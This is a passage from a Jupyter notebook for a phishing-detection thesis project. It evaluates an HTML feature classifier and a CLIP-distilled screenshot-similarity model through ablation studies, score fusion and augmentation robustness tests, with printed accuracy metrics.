    margins=[]
    mc_stds=[]

    correct=0
    total=0

    for idx in tqdm(range(len(dataset))):

        vis_img, _, lbl = dataset[idx]

        pil = to_pil(
            vis_img*torch.tensor([0.229,0.224,0.225]).view(3,1,1)
            + torch.tensor([0.485,0.456,0.406]).view(3,1,1)
        )

        aug = augment_image(pil, LEVEL)

        aug = to_tensor(aug)

        gt = dataset.site_names[lbl]

        pred, sim, margin, std = retrieve(aug)

        total += 1

        if pred == gt:
            correct += 1

        y_true.append(gt)
        y_pred.append(pred)

        best_sims.append(sim)
        margins.append(margin)
        mc_stds.append(std)

    top1 = 100*correct/total

    print(f"Top1          : {top1:.2f}")
    print(f"Similarity    : {np.mean(best_sims):.4f}")
    print(f"Margin        : {np.mean(margins):.4f}")
    print(f"MC Std        : {np.mean(mc_stds):.4f}")

    results.append({
        "Augmentation":LEVEL_NAMES[LEVEL],
        "Top1":top1,
        "AvgSimilarity":np.mean(best_sims),
        "AvgMargin":np.mean(margins),
        "MCStd":np.mean(mc_stds)
    })

    labels = dataset.site_names

    cm = confusion_matrix(
        y_true,
        y_pred,
        labels=labels
    )

    disp = ConfusionMatrixDisplay(
        confusion_matrix=cm,
        display_labels=labels
    )

    fig,ax=plt.subplots(figsize=(12,12))

    disp.plot(
        ax=ax,
        cmap="Blues",
        xticks_rotation=90,
        colorbar=False,
        values_format="d"
    )

    plt.title(f"{LEVEL_NAMES[LEVEL]}")
    plt.tight_layout()
    plt.show()

In [ ]:
# ABLATION STUDY : DOES CLIP DISTILLATION ACTUALLY TRANSFER KNOWLEDGE

warnings.filterwarnings('ignore')

def make_vis(weights=models.MobileNet_V3_Small_Weights.IMAGENET1K_V1):
    bb = models.mobilenet_v3_small(weights=weights)
    m  = nn.Module()
    m.features = bb.features
    m.avgpool  = bb.avgpool
    m.proj     = nn.Sequential(
        nn.Linear(576, 256),
        nn.Hardswish(),
        nn.Dropout(0.3),
        nn.Linear(256, 512)
    )
    def forward(self, x):
        x = self.features(x)
        x = self.avgpool(x).flatten(1)
        return F.normalize(self.proj(x), p=2, dim=1)
    import types
    m.forward = types.MethodType(forward, m)
    return m.to(DEVICE).eval()

# A — Random init (no ImageNet, no CLIP)
model_random = make_vis(weights=None)
print("  A: Random init — done")

# B — ImageNet pretrained only (no CLIP distillation)
model_imagenet = make_vis(
    weights=models.MobileNet_V3_Small_Weights.IMAGENET1K_V1)
print("  B: ImageNet pretrained — done")

# C — CLIP distilled (your trained model from pt-1)
model_clip = make_vis(
    weights=models.MobileNet_V3_Small_Weights.IMAGENET1K_V1)
model_clip.load_state_dict(
    torch.load("vis_best.pt", map_location=DEVICE))
model_clip.eval()
print("  C: CLIP distilled — loaded vis_best.pt")

CONDITIONS = {
    "A_Random"   : model_random,
    "B_ImageNet" : model_imagenet,
    "C_CLIP_Dist": model_clip,
}

# ══════════════════════════════════════════════════════════════
# STEP 2 — Build EmbeddingDB for each condition
# ══════════════════════════════════════════════════════════════

print("\n[2/4] Building EmbeddingDB for each condition...")

full_ldr = DataLoader(dataset, batch_size=8, shuffle=False)

def build_db(model):
    model.eval()
    all_embs, all_idxs = [], []
    with torch.no_grad():
        for vis_imgs, _, idxs in full_ldr:
            embs = model(vis_imgs.to(DEVICE))
            all_embs.append(embs.cpu())
            all_idxs.extend(idxs.tolist())
    all_embs = torch.cat(all_embs)
    db = {}
    for site_idx, site_name in enumerate(dataset.site_names):
        mask = [i for i, s in enumerate(all_idxs)
                if s == site_idx]
        db[site_name] = {
            'embeddings': all_embs[mask],
            'domain'    : DOMAIN_MAP.get(
                site_name, site_name.lower() + ".com"),
        }
    return db

dbs = {name: build_db(m) for name, m in CONDITIONS.items()}
print("  Done.")

# ══════════════════════════════════════════════════════════════
# STEP 3 — Four metrics per condition
#
# M1: ViS-CLIP cosine sim   — how close to CLIP's space
# M2: Intra-site cohesion   — same-brand embeddings cluster?
# M3: Inter-site separation — different brands stay apart?
# M4: Top-1 retrieval acc   — does DB matching work?
# ══════════════════════════════════════════════════════════════

print("\n[3/4] Computing metrics...")

def enable_mc_dropout(model):
    for m in model.modules():
        if isinstance(m, nn.Dropout):
            m.train()

@torch.no_grad()
def get_clip_embs(imgs):
    f = clip_model.encode_image(imgs.to(DEVICE))
    return F.normalize(f.float(), p=2, dim=1).cpu()

def compute_metrics(model, db):
    model.eval()

    # ── collect all embeddings + CLIP embeddings ───────────────
    all_vis, all_clip_e, all_labels = [], [], []
    with torch.no_grad():
        for vis_imgs, clip_imgs, idxs in full_ldr:
            vis_embs  = model(vis_imgs.to(DEVICE)).cpu()
            clip_embs = get_clip_embs(clip_imgs)
            all_vis.append(vis_embs)
            all_clip_e.append(clip_embs)
            all_labels.extend(idxs.tolist())
    all_vis    = torch.cat(all_vis)
    all_clip_e = torch.cat(all_clip_e)
    all_labels = np.array(all_labels)

    # M1: ViS-CLIP cosine similarity
    m1 = F.cosine_similarity(
        all_vis, all_clip_e, dim=1).mean().item()

    # M2: Intra-site cohesion
    # Mean cosine sim between embeddings of SAME brand
    intra = []
    for site_idx in range(len(dataset.site_names)):
        mask  = np.where(all_labels == site_idx)[0]
        if len(mask) < 2: continue
        embs  = all_vis[mask]
        # pairwise cosine sim
        normed = F.normalize(embs, p=2, dim=1)
        sim_mat = normed @ normed.T
        # upper triangle only (no diagonal)
        n = sim_mat.size(0)
        vals = [sim_mat[i,j].item()
                for i in range(n)
                for j in range(i+1, n)]
        intra.extend(vals)
    m2 = float(np.mean(intra)) if intra else 0.0

    # M3: Inter-site separation
    # Mean cosine DISTANCE between centroids of DIFFERENT brands
    centroids = []
    for site_idx in range(len(dataset.site_names)):
        mask = np.where(all_labels == site_idx)[0]
        if len(mask) == 0: continue
        c = F.normalize(
            all_vis[mask].mean(0, keepdim=True), p=2, dim=1)
        centroids.append(c)
    inter = []
    if len(centroids) > 1:
        centroids_t = torch.cat(centroids)
        n = centroids_t.size(0)
        sim_mat = centroids_t @ centroids_t.T
        for i in range(n):
            for j in range(i+1, n):
                # distance = 1 - similarity
                inter.append(1 - sim_mat[i,j].item())
    m3 = float(np.mean(inter)) if inter else 0.0

    # M4: Top-1 retrieval accuracy
    correct = 0
    for idx in range(len(dataset)):
        vis_emb = all_vis[idx]
        gt      = dataset.site_names[all_labels[idx]]
        scores  = {}
        for site, entry in db.items():
            stored = entry['embeddings']
            if stored.size(0) == 0:          # ← skip empty sites
                continue
            sim = F.cosine_similarity(
                vis_emb.unsqueeze(0).expand(stored.size(0), -1),
                stored, dim=1).max().item()
            scores[site] = sim
        if not scores:                       # ← no valid sites
            continue
        pred = max(scores, key=scores.get)
        if pred == gt:
            correct += 1
    m4 = correct / len(dataset)

    return {
        'ViS_CLIP_Sim' : round(m1, 4),
        'Intra_Cohesion': round(m2, 4),
        'Inter_Separation': round(m3, 4),
        'Top1_Retrieval'  : round(m4 * 100, 2),
    }

metrics_all = {}
for name, model in CONDITIONS.items():
    print(f"  Computing: {name}")
    metrics_all[name] = compute_metrics(model, dbs[name])
    m = metrics_all[name]
    print(f"    ViS-CLIP sim    : {m['ViS_CLIP_Sim']:.4f}")
    print(f"    Intra cohesion  : {m['Intra_Cohesion']:.4f}")
    print(f"    Inter separation: {m['Inter_Separation']:.4f}")
    print(f"    Top-1 retrieval : {m['Top1_Retrieval']:.2f}%")

# ══════════════════════════════════════════════════════════════
# STEP 4 — Plots
# ══════════════════════════════════════════════════════════════

print("\n[4/4] Generating plots...")

COLORS = {
    "A_Random"   : "#F44336",
    "B_ImageNet" : "#FF9800",
    "C_CLIP_Dist": "#4CAF50",
}
LABELS = {
    "A_Random"   : "A: Random Init",
    "B_ImageNet" : "B: ImageNet Only",
    "C_CLIP_Dist": "C: CLIP Distilled",
}

fig, axes = plt.subplots(1, 4, figsize=(22, 6))
fig.suptitle(
    "Does CLIP Distillation Transfer Knowledge?\n"
    "Two conditions × Two metrics",
    fontsize=14, fontweight='bold')

metric_keys  = ['ViS_CLIP_Sim', 'Intra_Cohesion',
                'Inter_Separation', 'Top1_Retrieval']
metric_labels= ['M1: ViS-CLIP\nCosine Similarity',
                'M2: Intra-Site\nCohesion',
                'M3: Inter-Site\nSeparation',
                'M4: Top-1\nRetrieval Acc (%)']
ylims        = [(0, 1.1), (0, 1.1), (0, 1.1), (0, 110)]
thresholds   = [0.80, 0.70, 0.30, 80]

for ax, key, label, ylim, thresh in zip(
        axes, metric_keys, metric_labels, ylims, thresholds):

    names = list(CONDITIONS.keys())
    vals  = [metrics_all[n][key] for n in names]
    bars  = ax.bar(
        [LABELS[n] for n in names],
        vals,
        color=[COLORS[n] for n in names],
        edgecolor='black', width=0.5)

    # Value labels on bars
    for bar, val in zip(bars, vals):
        ax.text(bar.get_x() + bar.get_width()/2,
                bar.get_height() + ylim[1]*0.02,
                f"{val:.3f}" if key != 'Top1_Retrieval'
                else f"{val:.1f}%",
                ha='center', fontsize=10, fontweight='bold')

    # Threshold line
    ax.axhline(thresh, color='blue', linestyle='--',
               linewidth=1.5, alpha=0.6,
               label=f'Ref={thresh}')

    ax.set_title(label, fontsize=11, fontweight='bold')
    ax.set_ylim(ylim)
    ax.tick_params(axis='x', labelsize=8)
    ax.legend(fontsize=8)
    ax.grid(axis='y', alpha=0.3)

plt.tight_layout()
plt.savefig("clip_distillation_proof.png",
            dpi=150, bbox_inches='tight')
plt.show()
print("  Saved: clip_distillation_proof.png")

# ── Clean summary ───────────────────────────────────────────────
print("\n" + "="*60)
print("  KNOWLEDGE TRANSFER PROOF — SUMMARY")
print("="*60)
print(f"  {'Condition':<20} {'M1 ViS-CLIP':>11} "
      f"{'M2 Intra':>9} {'M3 Inter':>9} {'M4 Top1':>9}")
print(f"  {'─'*62}")
for name in CONDITIONS:
    m = metrics_all[name]
    print(f"  {LABELS[name]:<20} "
          f"{m['ViS_CLIP_Sim']:>11.4f} "
          f"{m['Intra_Cohesion']:>9.4f} "
          f"{m['Inter_Separation']:>9.4f} "
          f"{m['Top1_Retrieval']:>8.2f}%")

# Compute gains
base = metrics_all['A_Random']
clip = metrics_all['C_CLIP_Dist']
print(f"\n  CLIP distillation gain over random init:")
print(f"    ViS-CLIP sim    : "
      f"+{clip['ViS_CLIP_Sim']-base['ViS_CLIP_Sim']:.4f}")
print(f"    Intra cohesion  : "
      f"+{clip['Intra_Cohesion']-base['Intra_Cohesion']:.4f}")
print(f"    Inter separation: "
      f"+{clip['Inter_Separation']-base['Inter_Separation']:.4f}")
print(f"    Top-1 retrieval : "
      f"+{clip['Top1_Retrieval']-base['Top1_Retrieval']:.2f}%")
print("="*60)
print("\nInterpretation for thesis:")
print("  M1 proves the embedding space was transferred from CLIP.")
print("  M2 proves same-brand screenshots cluster together.")
print("  M3 proves different brands stay separated.")
print("  M4 proves the DB matching actually works in practice.")
print("  All four metrics should be: C >> B >> A")

In [20]:
# ══════════════════════════════════════════════════════════════
# STEP 4 (alt) — Individual high-res plots, one per metric
# ══════════════════════════════════════════════════════════════

print("\n[4/4] Generating individual high-res plots...")

for key, label, ylim, thresh in zip(
        metric_keys, metric_labels, ylims, thresholds):

    fig, ax = plt.subplots(figsize=(8, 6))

    names = list(CONDITIONS.keys())
    vals  = [metrics_all[n][key] for n in names]
    bars  = ax.bar(
        [LABELS[n] for n in names],
        vals,
        color=[COLORS[n] for n in names],
        edgecolor='black', width=0.5)

    # Value labels on bars
    for bar, val in zip(bars, vals):
        ax.text(bar.get_x() + bar.get_width()/2,
                bar.get_height() + ylim[1]*0.02,
                f"{val:.3f}" if key != 'Top1_Retrieval'
                else f"{val:.1f}%",
                ha='center', fontsize=11, fontweight='bold')

    # Threshold line
    ax.axhline(thresh, color='blue', linestyle='--',
               linewidth=1.5, alpha=0.6,
               label=f'Ref={thresh}')

    ax.set_title(label.replace('\n', ' '), fontsize=13, fontweight='bold')
    ax.set_ylim(ylim)
    ax.tick_params(axis='x', labelsize=10)
    ax.legend(fontsize=9)
    ax.grid(axis='y', alpha=0.3)

    plt.tight_layout()
    fname = f"clip_distillation_{key}.png"
    plt.savefig(fname, dpi=300, bbox_inches='tight')
    plt.close(fig)   # close so figures don't pile up in memory
    print(f"  Saved: {fname}")

print("  All individual plots saved.")


[4/4] Generating individual high-res plots...
  Saved: clip_distillation_ViS_CLIP_Sim.png
  Saved: clip_distillation_Intra_Cohesion.png
  Saved: clip_distillation_Inter_Separation.png
  Saved: clip_distillation_Top1_Retrieval.png
  All individual plots saved.


In [13]:
# FULL INFERENCE PIPELINE
# ═══════════════════════════════════════════════════════════════
# Full PhishCascade inference:
#   HTML → GFhD → phishing probability
#   Image → ViS → visual similarity + confidence
#   Fusion: if ViS confident → blend, else GFhD decides
# HTML and images taken from PhishCapture site folders
# ═══════════════════════════════════════════════════════════════


sys.path.append('/kaggle/working')
#from feature_extractor import extract_all, ALL_FEATURES

# ── CONFIG ─────────────────────────────────────────────────────
BASE_DIR       = "/kaggle/input/datasets/**/phiscap-hf/FC_Legit_Phis"
GFHD_PATH      = "gfhd_best.pt"
GFHD_SCALER    = "gfhd_scaler.pkl"
VIS_PATH       = "vis_best.pt"
VIS_DB_PATH    = "vis_embedding_db.pt"

SIM_THRESHOLD  = 0.80
MC_PASSES      = 20
EMBED_DIM      = 512
DEVICE = torch.device(
    "cuda" if torch.cuda.is_available() else "cpu")
print(f"Device: {DEVICE}")

# ══════════════════════════════════════════════════════════════
# LOAD MODELS
# ══════════════════════════════════════════════════════════════
print("\n[1/4] Loading models...")

scaler   = joblib.load(GFHD_SCALER)
n_feats  = len(ALL_FEATURES)
gfhd     = GFhD(input_dim=n_feats).to(DEVICE)
gfhd.load_state_dict(torch.load(GFHD_PATH, map_location=DEVICE))
gfhd.eval()
print(f"  GFhD loaded. Input: {n_feats} features.")

vis_model = ViS(out_dim=EMBED_DIM).to(DEVICE)
vis_model.load_state_dict(torch.load(VIS_PATH, map_location=DEVICE))
vis_model.eval()

EmbeddingDB = torch.load(VIS_DB_PATH, map_location='cpu')
print(f"  ViS loaded. EmbeddingDB: " f"{len(EmbeddingDB)} brands.")

VIS_TRANSFORM = T.Compose([
    T.Resize((224, 224)),
    T.ToTensor(),
    T.Normalize(mean=[0.485,0.456,0.406],
                std =[0.229,0.224,0.225])
])

# ══════════════════════════════════════════════════════════════
# INFERENCE FUNCTIONS
# ══════════════════════════════════════════════════════════════

import numpy as np

def gfhd_infer(url: str, html_str: str) -> dict:
    """Extract features → GFhD → phishing probability."""
    feats = extract_all(url, html_str)
    feat_vec = np.array(
        [feats.get(f, 0.0) for f in ALL_FEATURES],
        dtype=np.float32).reshape(1, -1)
    feat_scaled = scaler.transform(feat_vec).astype(np.float32)
    x = torch.tensor(feat_scaled).to(DEVICE)
    gfhd.eval()
    with torch.no_grad():
        proba = gfhd.predict_proba(x).item()
    conf = max(proba, 1 - proba)
    return {
        'gfhd_proba': proba,
        'gfhd_conf' : conf
    }

def enable_mc_dropout(model):
    for m in model.modules():
        if isinstance(m, nn.Dropout):
            m.train()

def vis_infer(pil_image, embedding_db) -> dict:
    """Screenshot → ViS → similarity + MC Dropout confidence."""
    img_t = VIS_TRANSFORM(pil_image).unsqueeze(0).to(DEVICE)
    vis_model.eval()
    enable_mc_dropout(vis_model)

    mc_embs = []
    with torch.no_grad():
        for _ in range(MC_PASSES):
            mc_embs.append(vis_model(img_t).cpu())
    mc_embs  = torch.cat(mc_embs)
    mean_emb = F.normalize(mc_embs.mean(0), p=2, dim=0)

    # Per-site MAX similarity vs individual embeddings
    site_scores = {}
    for site, entry in embedding_db.items():
        stored = entry['embeddings']
        sims   = F.cosine_similarity(
            mean_emb.unsqueeze(0).expand(
                stored.size(0), -1), stored, dim=1)
        site_scores[site] = sims.max().item()

    best_site = max(site_scores, key=site_scores.get)
    best_sim  = site_scores[best_site]

    # MC uncertainty
    best_stored = embedding_db[best_site]['embeddings']
    pass_sims   = []
    for i in range(MC_PASSES):
        e    = F.normalize(mc_embs[i], p=2, dim=0)
        sims = F.cosine_similarity(
            e.unsqueeze(0).expand(
                best_stored.size(0), -1),
            best_stored, dim=1)
        pass_sims.append(sims.max().item())

    std_dev    = float(np.array(pass_sims).std())
    vis_conf   = float(np.clip(1 - std_dev / 0.3, 0, 1))

    # Verdict
    matched_dom = embedding_db[best_site]['domain']
    return {
        'best_site'    : best_site,
        'matched_domain': matched_dom,
        'similarity'   : best_sim,
        'vis_conf'     : vis_conf,
        'mc_std'       : std_dev,
        'top5'         : sorted(site_scores.items(),
                                key=lambda x: -x[1])[:5]
    }

def fuse(gfhd_result: dict, vis_result: dict,
         url_domain: str) -> dict:
    
    g_proba = gfhd_result['gfhd_proba']
    sim     = vis_result['similarity']
    w       = vis_result['vis_conf']

    if sim >= SIM_THRESHOLD:
        matched = vis_result['matched_domain'].lstrip('www.').lower()
        current = url_domain.strip().lstrip('www.').lower()
        dom_ok  = (current == matched or
                   current.endswith('.' + matched))

        if dom_ok:
            # ViS confirms legitimate brand
            vis_signal = 0.0
            verdict    = "LEGITIMATE"
        else:
            # Visual clone — domain mismatch
            vis_signal = 1.0
            verdict    = "PHISHING"
        final = (1 - w) * g_proba + w * vis_signal
    else:
        # ViS doesn't recognize site → GFhD alone
        w          = 0.0
        vis_signal = g_proba
        verdict    = "UNKNOWN"
        final      = g_proba

    return {
        'final_proba'   : round(float(final), 4),
        'gfhd_proba'    : round(g_proba, 4),
        'gfhd_conf'     : round(gfhd_result['gfhd_conf'], 4),
        'vis_similarity': round(sim, 4),
        'vis_conf'      : round(w, 4),
        'vis_verdict'   : verdict,
        'fusion_weight' : round(w, 4),
        'matched_site'  : vis_result['best_site'],
        'matched_domain': vis_result['matched_domain'],
        'pred_label'    : int(final >= 0.5),
    }



Device: cuda

[1/4] Loading models...
  GFhD loaded. Input: 53 features.
  ViS loaded. EmbeddingDB: 45 brands.


In [17]:
# AUGMENTED FULL-PIPELINE EVALUATION 
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
from PIL import Image
import torchvision.transforms as T
from sklearn.metrics import (
    roc_auc_score, roc_curve, confusion_matrix,
    ConfusionMatrixDisplay, classification_report,
    precision_recall_curve, average_precision_score,
    f1_score, precision_score, recall_score, accuracy_score
)

LEVEL_NAMES = {0:"Original", 1:"Easy", 2:"Medium", 3:"Hard"}

def augment_image(img, level):
    if level == 0:
        return img
    if level == 1:
        aug = T.ColorJitter(brightness=0.10, contrast=0.10)
    elif level == 2:
        aug = T.Compose([T.ColorJitter(brightness=0.20, contrast=0.20), T.GaussianBlur(3)])
    elif level == 3:
        aug = T.Compose([T.ColorJitter(brightness=0.30, contrast=0.30),
                          T.GaussianBlur(5), T.RandomRotation(5)])
    elif level == 4:
        aug = T.Compose([T.ColorJitter(brightness=0.40, contrast=0.40, saturation=0.20),
                          T.GaussianBlur(7),
                          T.RandomPerspective(distortion_scale=0.25, p=1.0),
                          T.RandomRotation(8)])
    else:
        aug = T.Compose([T.ColorJitter(brightness=0.50, contrast=0.50, saturation=0.30, hue=0.10),
                          T.RandomPerspective(distortion_scale=0.35, p=1.0),
                          T.RandomRotation(10), T.GaussianBlur(9)])
    return aug(img)
    
from PIL import Image

BASE_DIR = "/kaggle/input/datasets/**/phiscap-hf/FC_Legit_Phis"
IMG_EXTS = {'.png', '.jpg', '.jpeg', '.webp'}
HTML_EXTS = {'.html', '.htm'}

def find_site_files(site_dir):
    """Return (html_path_or_None, list_of_image_paths) for a site folder."""
    html_path = None
    img_paths = []
    for f in os.listdir(site_dir):
        ext = os.path.splitext(f)[1].lower()
        full = os.path.join(site_dir, f)
        if ext in HTML_EXTS and html_path is None:
            html_path = full
        elif ext in IMG_EXTS:
            img_paths.append(full)
    return html_path, sorted(img_paths)


def infer_site_augmented(site_dir, url_domain_guess, level):
    html_path, img_paths = find_site_files(site_dir)
    html_str = ""
    if html_path:
        try:
            with open(html_path, 'r', encoding='utf-8', errors='ignore') as f:
                html_str = f.read()
        except Exception:
            pass
    try:
        gfhd_result = gfhd_infer(url_domain_guess, html_str)
    except Exception:
        gfhd_result = {'gfhd_proba': 0.5, 'gfhd_conf': 0.0}

    results = []
    for img_path in img_paths:
        try:
            pil_img = Image.open(img_path).convert("RGB")
            pil_img = augment_image(pil_img, level)
            vis_result = vis_infer(pil_img, EmbeddingDB)
            fused = fuse(gfhd_result, vis_result, url_domain_guess)
            fused['image_path'] = img_path
            results.append(fused)
        except Exception as e:
            print(f"    Image error {img_path}: {e}")
    return results


# ── RUN OVER ALL LEVELS ──────────────────────────────────────────
all_records = []

for LEVEL in range(4):
    print(f"\n{'='*60}\nAugmentation: {LEVEL_NAMES[LEVEL]}\n{'='*60}")
    for split, true_label in [("Legit", 0), ("Phis", 1)]:
        split_dir = os.path.join(BASE_DIR, split)
        sites = sorted([d for d in os.listdir(split_dir)
                         if os.path.isdir(os.path.join(split_dir, d))])
        for site in sites:
            site_dir = os.path.join(split_dir, site)
            url_domain_guess = DOMAIN_MAP.get(site, site.lower() + ".com")
            site_results = infer_site_augmented(site_dir, url_domain_guess, LEVEL)
            for r in site_results:
                r['site']       = site
                r['split']      = split
                r['true_label'] = true_label
                r['level']      = LEVEL
                r['level_name'] = LEVEL_NAMES[LEVEL]
                all_records.append(r)
    n_lvl = sum(1 for r in all_records if r['level'] == LEVEL)
    print(f"  Collected {n_lvl} predictions at this level")

df_aug = pd.DataFrame(all_records)
df_aug.to_csv("augmented_full_inference_results.csv", index=False)
print(f"\nTotal predictions across all levels: {len(df_aug)}")

# ── METRICS TABLE PER LEVEL ──────────────────────────────────────
metric_rows = []
for level in range(4):
    sub = df_aug[df_aug['level'] == level]
    y_true  = sub['true_label'].values
    y_pred  = sub['pred_label'].values
    y_proba = sub['final_proba'].values

    metric_rows.append({
        "Augmentation": LEVEL_NAMES[level],
        "Accuracy"    : accuracy_score(y_true, y_pred),
        "Precision"   : precision_score(y_true, y_pred, zero_division=0),
        "Recall"      : recall_score(y_true, y_pred, zero_division=0),
        "F1"          : f1_score(y_true, y_pred, zero_division=0),
        "ROC_AUC"     : roc_auc_score(y_true, y_proba),
        "AvgProba"    : y_proba.mean(),
        "AvgSimilarity": sub['vis_similarity'].mean(),
        "AvgVisConf"  : sub['vis_conf'].mean(),
    })

metrics_df = pd.DataFrame(metric_rows)
print(metrics_df.round(4).to_string(index=False))
metrics_df.to_csv("augmentation_ablation_metrics.csv", index=False)



Augmentation: Original
  Collected 530 predictions at this level

Augmentation: Easy
  Collected 530 predictions at this level

Augmentation: Medium
  Collected 530 predictions at this level

Augmentation: Hard
  Collected 530 predictions at this level

Total predictions across all levels: 2120
Augmentation  Accuracy  Precision  Recall     F1  ROC_AUC  AvgProba  AvgSimilarity  AvgVisConf
    Original    0.9792     0.9921  0.9654 0.9786   0.9783    0.4693         0.9988      0.9801
        Easy    0.9755     0.9843  0.9654 0.9748   0.9722    0.4721         0.9982      0.9789
      Medium    0.9792     0.9921  0.9654 0.9786   0.9765    0.4686         0.9967      0.9785
        Hard    0.9113     0.8685  0.9654 0.9144   0.9125    0.5329         0.9741      0.9740








